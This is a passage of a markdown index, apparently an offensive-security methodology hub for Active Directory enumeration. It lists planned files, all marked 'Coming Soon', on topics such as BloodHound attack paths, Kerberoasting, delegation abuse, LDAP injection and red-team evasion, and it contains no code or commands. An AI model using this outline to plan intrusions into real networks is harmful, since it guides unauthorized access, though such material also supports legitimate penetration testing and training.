- **05_User_Enumeration.md** - *Coming Soon* - User accounts and properties
- **06_Group_Enumeration.md** - *Coming Soon* - Groups and memberships
- **07_Computer_Enumeration.md** - *Coming Soon* - Computers and servers

### **🔐 ACCESS CONTROL & POLICY**
- **08_GPO_Enumeration.md** - *Coming Soon* - Group policy objects
- **09_ACL_Enumeration.md** - *Coming Soon* - Access control lists and permissions

### **🩸 VISUALIZATION & ANALYSIS**
- **10_BloodHound_Enumeration.md** - *Coming Soon* - Attack path visualization
- **11_SOAPHound_Enumeration.md** - *Coming Soon* - SOAP-based enumeration

### **💻 SESSIONS & REMOTE ACCESS**
- **12_Session_Enumeration_Index.md** - *Coming Soon* - Session enumeration overview
- **13_Active_Session_Discovery.md** - *Coming Soon* - Active session discovery
- **14_RDP_Session_Enumeration.md** - *Coming Soon* - RDP session analysis
- **15_Terminal_Services_Enumeration.md** - *Coming Soon* - Terminal services

### **🔍 ENTERPRISE SERVICES**
- **17_File_Share_Enumeration.md** - *Coming Soon* - File shares and permissions
- **18_Registry_Enumeration.md** - *Coming Soon* - Registry analysis
- **19_PowerShell_Remoting_Enumeration.md** - *Coming Soon* - PowerShell remoting
- **20_WMI_Enumeration.md** - *Coming Soon* - WMI queries and management

### **⏰ TIMING & STEALTH**
- **21_Time_Based_Enumeration.md** - *Coming Soon* - Time-based enumeration techniques

### **🔐 KERBEROS & AUTHENTICATION**
- **22_Kerberos_Master_Index.md** - *Coming Soon* - Kerberos enumeration overview
- **23_Kerberos_Basic_Enumeration.md** - *Coming Soon* - Basic Kerberos concepts
- **24_SPN_Enumeration_Techniques.md** - *Coming Soon* - SPN enumeration and Kerberoasting
- **25_Kerberos_Delegation_Abuse.md** - *Coming Soon* - Delegation abuse techniques
- **26_Kerberos_Advanced_Attacks.md** - *Coming Soon* - Advanced Kerberos attacks

### **🌲 FOREST & TRUST ATTACKS**
- **27_AD_CS_Enumeration.md** - *Coming Soon* - Active Directory Certificate Services
- **28_SQL_Server_Enumeration.md** - *Coming Soon* - SQL Server enumeration and abuse
- **29_LDAP_Injection.md** - *Coming Soon* - LDAP injection techniques
- **30_Forest_Enumeration.md** - *Coming Soon* - Forest and trust enumeration

### **👁️ DETECTION & MONITORING**
- **31_Detection_Index.md** - *Coming Soon* - Detection overview
- **32_Detection_Blue_Team.md** - *Coming Soon* - Blue team detection
- **33_Detection_Red_Team.md** - *Coming Soon* - Red team evasion

---

## 🎯 **NAVIGATION & NEXT STEPS**

**🔄 [Back to Master Index](./00_Enumeration_Index.md)** | **🔐 Kerberos Master Index** - *Coming Soon* | **💻 Sessions Index** - *Coming Soon*

---

**🎯 This methodology hub is your tactical command center for AD enumeration. Use the decision flows, execution profiles, and pivot matrices to orchestrate your approach. Every technique file is referenced here for seamless navigation and attack planning.**

